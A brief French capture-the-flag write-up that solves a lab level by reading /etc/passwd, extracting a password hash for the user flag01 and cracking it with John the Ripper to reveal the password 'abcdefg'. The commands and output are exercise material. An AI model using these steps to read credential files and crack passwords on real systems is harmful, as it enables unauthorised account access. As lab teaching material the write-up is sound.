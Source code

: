 # Solution

```bash
$>cat /etc/passwd
...
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```

Le mot de passe est hache on va donc utiliser un outils capable de brut force le mot de passe avec un dictionnaire on utilisera la command john.

```bash
$>echo "flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash" > passwd.txt
$>john passwd.txt
...
abcdefg		(flag01)
...
```